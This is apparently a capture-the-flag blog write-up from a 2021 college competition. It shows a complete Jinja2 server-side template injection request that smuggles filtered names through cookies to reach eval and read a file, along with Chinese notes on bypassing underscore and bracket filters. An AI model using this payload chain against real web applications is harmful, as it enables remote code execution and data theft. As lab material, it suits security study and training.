 ```yaml
---
title: CUMT-Competition-Oct
tags:
  - CUMT
  - CTF
categories: 
  - CTF
description: College CTF 2021/10/7
excerpt: College CTF 2021/10/7
typora-root-url: CUMT-Competition-Oct
abbrlink: 23725
date: 2021-10-07 18:36:25
---
```


# CUMT CTF Oct

## Web

### SSTI

```http
GET /hello?name={{''|attr(request.cookies.a)|attr(request.cookies.c)|attr(request.cookies.d)(1)|attr(request.cookies.e)()|attr(request.cookies.d)(166)|attr(request.cookies.f)|attr(request.cookies.g)|attr(request.cookies.d)(request.cookies.h)|attr(request.cookies.d)(request.cookies.i)(request.cookies.code)}}  HTTP/1.1

Host: 219.219.61.234:48000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://219.219.61.234:48000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: a=__class__; b=__bases__; c=__mro__; d=__getitem__; e=__subclasses__; f=__init__; g=__globals__; h=__builtins__; i=eval;; code=open('/flag').read()

```

没什么好说的，首先可以确定是过滤了下划线(\_)、左右中括号(\[\])，这种情况下尝试性传入request.cookies未被过滤(request.args也没被过滤)，那么可以使用request.cookies绕过下划线乃至各种字符单词过滤，其次过滤的中括号，在Python核心编程中有提及，Python对对象使用\[\]操作符时，返回值为\_\_getitem\_\_函数的返回值，对于Jinjia2模板解析，可以使用attr来获取一个对象的成员，例如obj.a可以使用obj|attr("a")来获取，这样一来就很容易绕过这个题目的过滤了。

> 注意：由于各个题目环境不同，在拿到object.\_\_subclasses\_\_()后理应手动确定**warnings.catch_warnigs**在列表中的位置，该题为166。

### sqli
